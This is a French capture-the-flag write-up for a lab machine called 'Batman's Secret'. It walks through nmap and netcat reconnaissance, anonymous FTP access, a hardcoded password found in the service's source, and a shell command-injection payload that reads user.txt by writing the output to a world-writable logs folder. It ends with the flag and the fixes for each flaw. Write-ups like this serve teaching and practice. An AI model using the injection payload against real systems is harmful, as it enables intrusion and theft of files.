






# Batman's Secret

Difficulté : Easy
Catégorie : Injection

## 1. Reconnaissance

```bash
nmap 10.10.0.10
```


Une tentative de requête HTTP classique sur le port 3000 échoue :

```bash
curl -v http://10.10.0.10:3000
```

```
* Received HTTP/0.9 when not allowed
* Closing connection 0
curl: (1) Received HTTP/0.9 when not allowed
```

Ce n'est donc pas un serveur web.

```bash
nc 10.10.0.10 3000
```



## 2. Énumération FTP

Le serveur FTP accepte les connexions anonymes :

```bash
ftp 10.10.0.10
Name: anonymous
ls
```





Le dossier logs est accessible en écriture et lecture par tout le monde (drwxrwxrwx). Le fichier alert.py est le code source du service.

```bash
get alert.py
```

## 3. Analyse du code source

```bash
cat alert.py
```



Deux problèmes visibles immédiatement :
- Le mot de passe d'authentification (G0th4mN33dsTh3B4t!) est en clair dans le code source.
- Le texte de l'alerte (alert_text) est inséré tel quel dans une commande shell via os.system, sans aucune validation ni échappement.

## 4. Exploitation

Le texte utilisateur est inséré entre guillemets simples. En envoyant une apostrophe, on ferme prématurément la citation et on peut ajouter une commande, puis rouvrir une citation pour neutraliser le reste du code d'origine.

```bash
nc 10.10.0.10 3000
```

```
$> G0th4mN33dsTh3B4t!
Authorized signal. What is the emergency?
$> test'; find /home -name user.txt -exec cat {} \; > /opt/hotline/logs/find.txt 2>&1; echo '
```

On ne voit jamais directement le résultat de nos commandes car le serveur ne nous le renvoie pas. On l'écrit donc dans un fichier du dossier logs, qu'on peut ensuite relire via FTP. La commande find cherche elle-même le fichier user.txt dans tout le dossier /home, sans qu'on ait besoin de connaître le nom de l'utilisateur à l'avance.

```bash
ftp 10.10.0.10
cd logs
get find.txt
exit
cat find.txt
```

**Flag : EPI{1s_8ruc3_W4yn3_84tm4n?}**



## Vulnérabilités identifiées

Le site prend ce qu'on écrit et l'utilise tel quel dans une commande. Si on écrit une apostrophe, on peut ajouter notre propre commande à la place. Donc une injection de commande.

Le mot de passe était écrit en clair dans le code. On a pu le voir juste en se connectant en FTP, sans même avoir de compte (connexion "anonyme").

Le dossier logs était ouvert à tout le monde, en lecture et en écriture. Ça nous a servi à récupérer le résultat de nos commandes.

Pour corriger ça, il ne faut jamais mettre le texte d'un visiteur directement dans une commande, fermer l'accès FTP anonyme, et ne jamais écrire de mot de passe en clair dans le code.

## Points clés

Un port qui ne répond pas comme un site web n'est pas cassé, c'est juste autre chose. Se connecter avec nc montre ce que le service répond vraiment.

Quand on ne voit pas le résultat d'une commande directement, on peut l'écrire dans un fichier et aller le lire ensuite avec FTP.
